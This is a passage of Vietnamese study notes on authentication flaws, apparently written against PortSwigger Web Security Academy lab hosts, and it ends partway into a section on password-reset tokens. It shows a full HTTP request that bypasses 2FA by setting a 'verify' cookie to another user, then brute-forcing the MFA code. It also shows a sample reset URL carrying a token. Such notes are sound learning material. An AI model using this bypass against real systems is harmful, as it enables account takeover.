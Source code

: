 Triển khai sai logic ở đây , ta có thể hoàn toàn bỏ qua lần 2 , vì ta đã có phiên đăng nhập ở lần 1 

1. **Triển khai 2FA không verify đã xác thực được bước 1** 

Một số trường hợp verify dựa vào cookie chứa user , chỉ handle bước secret code mà không quan tâm đối tượng đó đã hoàn thành bước 1 xác thực username và password hay chưa 

```sql
POST /login2 HTTP/2
Host: 0a12007b04baaae385987d0500c7007d.web-security-academy.net
Cookie: session=; verify=carlos
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: vi-VN,vi;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Origin: https://0a12007b04baaae385987d0500c7007d.web-security-academy.net
Referer: https://0a12007b04baaae385987d0500c7007d.web-security-academy.net/login2
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

mfa-code=1400
```

Giá trị cookie chứa đối tượng cần verify ⇒ brure-force 

### Other authentication

Ngoài các trang login ra thì còn rất nhiều các chức năng mà có thể phá vỡ được cơ chế xác thực , ví dụ như chức năng `reset password` 

Cách triển khai : 

Để triển khai chức năng reset password thì người ta thường triển khai bằng cách gửi 1 URL đến email đăng kí của user , từ url đó sẽ access được 1 page dùng để submit mật khẩu mới .

Ví dụ như : 

```sql
https://0a8000d604b65d8680bd85b10072004d.web-security-academy.net/forgot-password
//?temp-forgot-password-token=48zd6yx8i79padr5aquk20gnypwx4rqv
```

dãy token đằng sau thường được để đại diện cho 1 user và có nó chúng ta mới access được form dùng để `reset password` 

Một số vấn đề có thể xảy ra trong trường hợp này : 

1. Token chỉ được dùng để access page 
